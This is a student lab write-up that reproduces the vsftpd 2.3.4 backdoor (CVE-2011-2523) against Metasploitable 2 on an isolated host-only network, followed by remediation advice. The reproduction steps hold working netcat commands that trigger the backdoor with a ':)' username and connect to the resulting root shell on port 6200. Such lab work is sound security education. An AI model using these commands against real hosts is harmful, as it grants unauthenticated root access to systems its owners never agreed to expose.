

# Task 2D: CVE Reproduction — vsftpd 2.3.4 Backdoor (CVE-2011-2523)

**Student:** Aazib Ali

---

## Lab Network Layout

- **Kali Linux (attacker):** two adapters
  - eth0 — NAT — internet access only
  - eth1 — Host-only — `192.168.17.128`
- **Metasploitable 2 (target):** single adapter
  - eth0 — Host-only only (NO NAT adapter) — `192.168.17.129`

The target has no NAT adapter and no route to the physical/host
network — it exists only on the Host-only virtual segment shared
with Kali's second adapter. Confirmed not reachable from the host
machine (outside the VMs): a ping from the physical host network to
`192.168.17.129` fails, since that subnet is private to VMware's
Host-only vswitch and not bridged to any physical interface.

---

## Vulnerability

vsftpd 2.3.4, distributed between 2011-06-30 and 2011-07-03, had its
source tarball compromised. The trojaned version adds a backdoor: any
username containing a smiley face `:)` triggers a listener on TCP
port 6200 that spawns a root shell, no authentication required.

---

## Reproduction Steps

**1. Confirm the vulnerable version (banner grab):**
```bash
nc -nv 192.168.17.129 21
```
Result: `220 (vsFTPd 2.3.4)`

**2. Trigger the backdoor** by sending a username containing `:)`:
```bash
(echo "USER backdoor:)"; sleep 1; echo "PASS x"; sleep 1) | nc 192.168.17.129 21
```

**3. Connect to the spawned backdoor shell on port 6200:**
```bash
nc 192.168.17.129 6200
```

**4. Confirm root access:**

id
whoami

Result:

uid=0(root) gid=0(root)
root




---

## Remediation

- Upgrade vsftpd to a version after 2011-07-03, or verify the source
  tarball's checksum/signature before building from source.
- The vulnerability exists because the official distribution
  mirror was compromised — package integrity verification
  (checksums, GPG signatures) would have caught the tampering
  before install.
- Restrict FTP service exposure: FTP should not be reachable from
  untrusted networks, and legacy/unmaintained FTP daemons should be
  replaced with SFTP.
- Network segmentation (as used in this lab) limits blast radius —
  the backdoor is dangerous specifically because it grants
  unauthenticated root, so isolating FTP servers from sensitive
  internal networks reduces impact even if a similar backdoor is
  later introduced.
